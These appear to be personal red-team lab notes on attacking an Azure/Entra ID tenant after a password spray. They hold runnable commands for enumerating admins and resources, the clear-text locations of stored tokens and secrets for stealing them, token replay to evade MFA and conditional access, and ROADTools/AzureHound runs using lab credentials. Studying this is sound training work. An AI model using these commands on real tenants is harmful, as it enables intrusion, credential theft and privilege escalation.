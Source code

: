 *_Got creds for a test user by password spray._

* * *

TLDR:
- Use [AzureAD](https://github.com/conma293/Azure/blob/main/2.1_Enumeration.md#enumeration---azuread-module)/[MG Module](https://github.com/conma293/Azure/blob/main/2.1_Enumeration.md#enumeration---mg-module) for basic AAD/Entra ID Directory enumeration (i.e., users, groups, devices)
  - This will require an access token for AAD or MS Graph
- Use [az powershell](https://github.com/conma293/Azure/blob/main/2.1_Enumeration.md#enumeration----az-powershell) or [az cli](https://github.com/conma293/Azure/blob/main/2.1_Enumeration.md#enumeration---azure-cli-az-cli) for other enumeration - resources, roles, vms, apps etc
  - This will require ARM access token (default token)
    

- Using tools like ROADTools or [Azurehound](https://github.com/conma293/Azure/blob/main/OAuth.md#enumeration---azurehound) is going to be our best bet anyhow (and enum isnt logged so who cares right!?)
 
    
* * *

#### AzureAD
Using the [AzureAD Module](https://github.com/conma293/Azure/blob/main/2.1_Enumeration.md#enumeration---azuread-module) to begin


We have compromised a user "Test", so first thing after [logging in](https://github.com/conma293/Azure/blob/main/2.1_Enumeration.md#enumeration---azuread-module); lets see what **user permissions** we have - in Azure this will be groups and roles:
```
Get-AzureADUser -SearchString 'test'
Get-AzureADUserMembership -ObjectId test@defcorphq.onmicrosoft.com
```
Can we see much more information about this **group**? ```Get-AzureADGroup -ObjectId 477db607-3447-4fde-b7de-cdbef47321ed | fl *```
**Who** else is in this **group**? (everyone):  ```Get-AzureADGroupMember -ObjectId 477db607-3447-4fde-b7de-cdbef47321ed```


Ok lets look for **admin users**:
```
Get-AzureADUser -SearchString 'admin' | Get-AzureADUserMembership
Get-AzureADUserMembership -ObjectId admin@defcorphq.onmicrosoft.com
```
- I wonder who else is in the Global Admins group? ```Get-AzureADGroupMember -ObjectId 9240b75e-823c-4c02-8868-a00ddbeb3fa1```

_in normal environments we would expect to see some Service Principals (that is an application service account) running as Global Administrator - if we were to compromise that object, or a user that is the owner of that object, we could get GA!_

- Lets check if we are the **owner of a device** (and therefore localadmin)? ```Get-AzureADUserOwnedDevice -ObjectId test@defcorphq.onmicrosoft.com```
- lets see what **devices** are ACTUALLY being **used** (i.e., active): ```Get-AzureADDevice -All $true | ?{$_.ApproximateLastLogonTimeStamp -ne $null}```
- OK now lets see if there are any **custom roles**? ```Get-AzureADMSRoleDefinition | ?{$_.IsBuiltin -eq $False}``` (May need to use preview module)
- And lets see the **users who have Global admin** role: ```Get-AzureADDirectoryRole -Filter "DisplayName eq 'Global Administrator'" | Get-AzureADDirectoryRoleMember```
#### MG Module
You could also use the [MG Module](https://github.com/conma293/Azure/blob/main/2.1_Enumeration.md#enumeration---mg-module) instead if you wanted:
```
$passwd = ConvertTo-SecureString "V3ryH4rdt0Cr4ckN0OneC@nGu355ForT3stUs3r" -AsPlainText -Force 
$creds = New-Object System.Management.Automation.PSCredential ("test@defcorphq.onmicrosoft.com", $passwd) 
Connect-AzAccount -Credential $creds 

$Token = (Get-AzAccessToken -ResourceTypeName MSGraph).Token
Connect-MgGraph -AccessToken ($Token | ConvertTo-SecureString -AsPlainText -Force)
```
```
Get-MgUser -All
Get-MgUser -All | select UserPrincipalName
Get-MgGroup -All
Get-MgDevice
```

To get all the Global Administrators:
```
$RoleId = (Get-MgDirectoryRole -Filter "DisplayName eq 'Global Administrator'").Id
(Get-MgDirectoryRoleMember -DirectoryRoleId $RoleId).AdditionalProperties
```

list all custom directory roles:
```Get-MgRoleManagementDirectoryRoleDefinition | ?{$_.IsBuiltIn -eq $False} | select DisplayName```

#### az powershell
there is also [az Powershell](https://github.com/conma293/Azure/blob/main/2.1_Enumeration.md#enumeration----az-powershell), best for resources, roles and VMs:

- Ok now lets enumerate all **resources** visible to the current user:
```Get-AzResource```

- And enumerate all **Azure RBAC role assignments** for all the resources the current user has read access to (NOT just the users role assignments):
```Get-AzRoleAssignment```

- lets output that to a table for ease of use:
```
Get-AzRoleAssignment | select DisplayName, RoleDefinitionName, ObjectType, CanDelegate
```

- Ok now lets look at **Virtual Machines** the user has access to: ```Get-AzVM | fl *```
- And any **Apps**: ```Get-AzWebApp```
  - We could display just **WebApp/Traditional App**:
```Get-AzWebApp | ?{$_.Kind -notmatch "functionapp"}```
  - Display **functional App**:
```Get-AzFunctionApp```
- List a table of all visible apps:
```
Get-AzWebApp | select name, HostNames, kind, state, identity
```
- Also **Storage**:
```Get-AzStorageAccount | fl```
- And **KeyVault**:
 ```Get-AzKeyVault```

#### az cli
And finally [az cli](https://github.com/conma293/Azure/blob/main/2.1_Enumeration.md#enumeration---azure-cli-az-cli); 
a good one to use from az cli is the **whoami** equivalent:-
```az ad signed-in-user show```


Also good to note, there is more information returned from ```az cli``` for some objects i.e., Can see the type of managed identity used for objects such as VM and Webapps:
```
az vm list
az vm list --query "[].[name]" -o table

az webapp list
az webapp list --query "[].[name]" -o table

az functionapp list --query "[].[name]" -o table

az storage account list

az keyvault list
```

Important to try all tools to get info!

## Tokens
- Steal tokens (If you are signed in you can dump it with ```(Get-AzAccessToken).token```)
- reuse instead of creds (similar to TGT ticket reuse with Rubeus):
```
Connect-AzAccount -AccessToken $token -AccountId test@defcorphq.onmicrosoft.com
```

- Test access to resources: ```Get-AzResource```

_with token replay you evade conditional access policy, and almost always mfa and entra id protect as well_
  - (because its not a sign-in!) all those work only for signin, this is after, direct to api - 
```Web API Validates access token and returns secure data to web server app```

lets get graph token:
```
Get-AzAccessToken -ResourceTypeName MSGraph
disConnect-AzAccount
Connect-AzAccount -AccountId test@defcorphq.onmicrosoft.com -AccessToken $token -MicrosoftGraphAccessToken eyJ0eXA...
```

**best target is managed identity access token - not protected by CAE!**


### Steal token
When on a machine look in - ```C:\Users\[username]\.Azure```
 - **az cli** (before 2.30.0 – January 2022) stores access tokens in clear text in ```accessTokens.json```
    - You can modify accessTokens.json to use access tokens with az cli but better to use with Az PowerShell or the Azure AD module.
    - ```azureProfile.json``` in the same directory contains information about subscriptions.
 -  **Az PowerShell** (older versions) stores access tokens in clear text in ```TokenCache.dat```
    -  It also stores ServicePrincipalSecret in clear-text in AzureRmContext.json if a service principal secret is used to authenticate.
 -  Another interesting method is to take a **process dump of PowerShell** and looking for tokens in it!
    -  Users can save tokens using Save-AzContext, look out for them! Search for **Save-AzContext** in PowerShell console history!
    -  ```C:\Users\<user>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine\ConsoleHost_History.txt```
  




## Tools
#### ROADTools
```
cd C:\AzAD\Tools\ROADTools
.\venv\Scripts\activate
roadrecon auth -u test@defcorphq.onmicrosoft.com -p V3ryH4rdt0Cr4ckN0OneCr4ckTh!sP@ssw0rd
roadrecon gather
roadrecon gui
```


```roadrecon plugin policies``` writes to ```C:\AzAD\Tools\ROADTools```

#### AzureHound
```
$passwd = ConvertTo-SecureString "V3ryH4rdt0Cr4ckN0OneCr4ckTh!sP@ssw0rd" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("test@defcorphq.onmicrosoft.com", $passwd)

Connect-AzAccount -Credential $creds

Import-Module C:\AzAD\Tools\AzureAD\AzureAD.psd1
Connect-AzureAD -Credential $creds

. C:\AzAD\Tools\AzureHound\AzureHound.ps1
Invoke-AzureHound -Verbose
```

Run ```C:\AzAD\Tools\BloodHound-win32-x64\BloodHound-win32-x64```

matches :
MATCH (n) WHERE n.azname IS NOT NULL AND n.azname <> "" AND n.name IS NULL SET n.name = n.azname
